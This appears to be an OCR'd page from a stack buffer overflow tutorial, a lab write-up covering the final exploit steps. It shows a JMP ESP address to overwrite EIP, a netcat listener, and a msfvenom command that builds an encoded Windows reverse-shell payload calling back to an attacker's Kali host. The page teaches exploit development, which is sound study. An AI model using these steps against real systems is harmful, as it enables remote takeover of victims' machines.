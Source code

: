 **625011AF** FFE4 JMP ESP

In this case, we need to put this address (625011AF) in the EIP so the program will go to it and run JMP ESP and then it will start running the shellcode we have there!

· **Generate and run the shellcode**

In a terminal window in Linux run the listener to receive the reverse shell:

nc -nvpl 443

Now let's prepare the shell. This shellcode should not contain bad chars (if we found any)

Using msvenom in Linux, we can create it without the previously identified badchars. At least \\x00 (null) should be included. -f specifies the language (c, py, pl, )

The EXITFUNC=Thread is used to avoid the program to terminate when we finish the shell. This will close only the thread used by the shell.

msfvenom -p windows/shell\_reverse\_tcp LHOST=\[IP KALI\] LPORT=443 EXITFUNC= thread -f py -e x86/shikata\_ga\_nai -b "\\x00"

Now we have all the pieces we need:

· Offset (2003 in this case)

· Address we want to overwrite in the EIP (observe we need to include it in little indian notation for x86: "\\xaf\\x11\\x50\\x62"

· the pattern string (shellcode) we want to inject and run.

Run the python script Part 5 to inject the shellcode.

We need to add some nops before the shell as sometimes the execution of the shell modifies some parts that could affect it. Sometimes 10 or 12 or 16 could be ok, but it is something to play with if the shell did not start.

To be sure the shell is loaded in the ESP, we can create a breakpoint in the address where the JMP ESP is located (625011AF) so the program will pause in that point. We can observe the ESP value and the memory to validate the shellcode is there and it is complete.
